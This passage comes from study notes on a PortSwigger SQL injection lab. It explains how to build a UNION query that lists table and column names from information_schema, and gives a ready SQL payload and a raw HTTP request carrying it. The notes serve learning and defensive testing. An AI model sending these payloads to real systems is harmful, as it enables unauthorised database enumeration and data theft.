

## Constructing the UNION Query

Once the number of columns is determined, you can construct a UNION query to extract data from other tables.

### Example: Constructing the UNION Query

Assume the vulnerable query has 3 columns. You can construct a UNION query as follows:

```sql
SELECT * FROM products WHERE category = '1' UNION SELECT table_name, column_name, data_type FROM information_schema.columns WHERE table_schema = 'database_name'
```

This query will return the names of tables, columns, and their data types from the specified database.

### HTTP Request Example

```http
GET /search?category=1 UNION SELECT table_name, column_name, data_type FROM information_schema.columns WHERE table_schema='database_name' HTTP/1.1
Host: example.com
```

### Mermaid Diagram: Constructing the UNION Query



---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/10-Lab 9 SQL injection attack listing the database contents on non Oracle databases/03-Common Pitfalls and Detection|Common Pitfalls and Detection]] | [[Web Security (PortSwigger)/02-SQL Injection/10-Lab 9 SQL injection attack listing the database contents on non Oracle databases/00-Overview|Overview]] | [[05-How to Prevent  Defend Against SQL Injection|How to Prevent  Defend Against SQL Injection]]
